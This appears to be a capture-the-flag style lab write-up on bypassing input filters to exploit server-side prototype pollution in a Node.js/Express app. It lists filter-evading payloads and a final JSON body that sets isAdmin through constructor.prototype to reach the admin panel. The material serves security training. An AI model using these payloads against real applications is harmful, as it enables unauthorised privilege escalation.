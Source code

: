 # Bypassing flawed input filters for server-side prototype pollution
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`


# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.

|![](Images/image-49.png)|
|:--:| 
| *Change billing and delivery address information request* |

## Exploitation
Input sanitization can be bypassed by using `constructor.prototype.foo=barr` structure. Attacker can gain administrator privileges by polluting (modifying) `isAdmin` value.

Alternative payloads possibilities:
```
__proto__.foo.bar
__pro__proto__to__.foo=bar
constructor.prototype.foo=bar
constconstructorructor.protoprototypetype.foo=bar
```
|![](Images/image-52.png)|
|:--:| 
| *Standard request and raw response* |
|![](Images/image-53.png)|
| *Prototype pollution detection - JSON in response is indented 10 spaces* |
|![](Images/image-50.png)|
| *Prototype pollution - Modification of isAdmin value* |
|![](Images/image-51.png)|
| *Deletion of user carlos* |

Final payload:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "TXGVTWU7oKIFBP0OrnunBfsmYSug1Xca",
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```
